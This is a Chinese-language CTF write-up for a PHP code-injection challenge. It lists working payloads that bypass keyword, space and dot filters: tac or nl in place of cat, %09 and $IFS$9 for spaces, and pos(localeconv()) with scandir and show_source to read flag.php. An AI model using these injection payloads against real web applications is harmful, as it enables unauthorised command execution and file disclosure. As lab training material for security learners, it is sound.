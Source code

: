 我们一个一个看：

1. flag，这个就用通配符就行
2. system，Web 30中已经解决了
3. cat，我们可以使用“tac、nl、cp”等
4. 空格，`%09`、`${IFS}`、`$IFS$9`（`\$IFS\$9`转义）都可以

**解题：**

最简单的：

`?c=passthru("ls");`

`?c=passthru("tac%09fla*");`

**还有：**

`?c=passthru(%22tac\$IFS\$9fla*%22); `也就是`passthru("tac\$IFS\$9fla*");`（%22为双引号）

**使用pos(localeconv)来获取小数点**

localeconv可以返回包括小数点在内的一个数组；pos去取出数组中当前第一个元素，也就是小数点。这就绕过了小数点限制。

> current()函数返回数组中的当前元素/单元，默认取第一个值；
>
> pos()函数同上，是current()函数的别名；
>
> reset()函数，当数组不为空时返回数组第一个单元的值，如果数组为空则返回FALSE
>
> `print_r(scandir(current(localeconv())));`
> `print_r(scandir(pos(localeconv())));`
> `print_r(scandir(reset(localeconv())));`



 scandir可以结合它扫描当前目录内容。`?c=print_r(scandir(pos(localeconv())));` 可以看到当前目录，通过array_reverse把数组逆序，通过next取到第二个数组元素，也即flag.php 然后

`?c=show_source(next(array_reverse(scandir(pos(localeconv())))));`

或者：`c=show_source(next(array_reverse(scandir(getcwd()))));`

这个在**Web 29**有详细解释，这里就是在Web 29的基础上绕过了小数点。

next():将数组指针指向下一个，这里其实可以省略倒置和改变数组指针，直接利用[2]取出数组也可以

`?c=show_source(scandir(getcwd())[2]);`

**getcwd() 函数返回当前工作目录。它可以代替pos(localeconv())**



**相关的方法：**

current()返回数组中的当前元素的值。

end()将内部指针指向数组中的最后一个元素，并输出。

next()将内部指针指向数组中的下一个元素，并输出。

prev()将内部指针指向数组中的上一个元素，并输出。

reset()将内部指针指向数组中的第一个元素，并输出。

